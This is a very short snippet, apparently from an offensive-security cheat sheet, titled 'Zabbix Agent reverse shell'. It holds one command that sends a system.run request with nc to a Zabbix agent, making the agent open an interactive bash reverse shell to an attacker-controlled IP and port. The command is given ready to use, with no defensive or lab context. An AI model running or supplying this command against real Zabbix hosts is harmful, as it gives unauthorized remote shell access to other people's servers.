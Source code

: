 ### Zabbix Agent reverse shell

### Command:

    echo "system.run[bash -c 'bash -i >& /dev/tcp/OUR_IP/PORT 0>&1']" | nc ZABBIX_HOST_IP PORT
